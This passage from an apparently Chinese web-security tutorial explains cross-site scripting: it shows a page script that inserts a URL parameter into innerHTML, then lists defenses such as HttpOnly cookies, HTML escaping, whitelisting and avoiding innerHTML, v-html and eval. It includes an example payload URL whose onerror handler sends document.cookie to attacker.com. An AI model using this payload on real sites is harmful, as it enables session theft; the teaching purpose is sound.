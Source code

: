- 恶意代码被浏览器执行，然后将用户数据发送给攻击者网站

  ```js
  // 页面JavaScript
  function displayUserInput() {
      const urlParams = new URLSearchParams(window.location.search);
      const userInput = urlParams.get('input');
      
      // 危险：直接插入到DOM中
      document.getElementById('output').innerHTML = userInput;
  }
  
  // 页面加载时执行
  window.onload = displayUserInput;
  ```

  ```
  https://example.com/page.html?input=<img src=x onerror="
      fetch('https://attacker.com/steal?data=' + encodeURIComponent(document.cookie));
      alert('Cookie已发送到攻击者服务器');
  ">
  ```

  ```html
  <img src="x" onerror="evil()">
  ```

  



#### 防范XSS

常用的防范手段：

- **httpOnly:** 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。
- **输入过滤:** 一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。
- **转义 HTML:** 如果拼接 HTML 是必要的，就需要对于引号，尖括号，斜杠进行转义（比如 将 > 转译为 `&gt;`）
- **添加白名单**：对于显示富文本来说，以上方法可能会将需要的格式也过滤掉，这时我们可以添加白名单的方式，其实也就是对匹配到的字段进行处理

预防存储型XSS和反射型XSS攻击：

- 纯前端渲染（这样就不会拼接html返回了）
- 同上面常用的防范手段一样的转义html

预防DOM型XSS攻击

DOM型XSS攻击实际上是JavaScript代码本身不够严谨，

- `.innerHTML`、`.outerHTML`、`document.write()` 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 `.textContent`、`.setAttribute()` 等。（尽量避免这种直接插入式的写法）
- Vue的 `v-html`也容易导致xss攻击（原理也是innerHTML），与此同时，`v-html`也会替换掉标签内部子元素，所以 `v-html`尽量别用
- 减少`eval()`的使用



#### 添加白名单防范XSS

https://jsxss.com/zh/index.html
